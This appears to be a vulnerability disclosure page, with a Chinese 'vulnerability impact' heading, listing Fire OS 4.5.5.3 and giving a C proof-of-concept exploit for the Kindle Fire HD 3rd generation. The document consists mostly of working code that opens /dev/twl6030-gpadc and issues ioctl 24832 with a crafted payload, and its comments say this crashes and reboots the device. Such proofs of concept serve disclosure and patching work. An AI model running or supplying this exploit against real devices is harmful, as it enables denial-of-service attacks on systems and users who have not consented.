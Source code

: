 <languages  /> <translate>

漏洞影響
--------

</translate>

    Fire OS 4.5.5.3

POC
---

    /*
     * This is poc of Kindle Fire HD 3rd
     * A bug in the ioctl interface of device file /dev/twl6030-gpadc causes
     * the system crash via IOCTL 24832.
     *
     * This Poc should run with permission to do ioctl on /dev/twl6030-gpadc.
     *
     */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/twl6030-gpadc";
    static command = 24832;

    struct twl6030_gpadc_user_parms {
        int channel;
        int status;
        unsigned short result;
    };


    int main(int argc, char **argv, char **env) {
            struct twl6030_gpadc_user_parms payload;
            payload.channel = 0x9b2a9212;
            payload.status = 0x0;
            payload.result = 0x0;

            int fd = 0;
            fd = open(driver, O_RDWR);
            if (fd < 0) {
                printf("Failed to open %s, with errno %d\n", driver, errno);
                system("echo 1 > /data/local/tmp/log");
                return -1;
            }

            printf("Try ioctl device file '%s', with command 0x%x and payload NULL\n", driver, command);
            printf("System will crash and reboot.\n");
            if(ioctl(fd, command, &payload) < 0) {
                printf("Allocation of structs failed, %d\n", errno);
                system("echo 2 > /data/local/tmp/log");
                return -1;
            }
            close(fd);
            return 0;
    }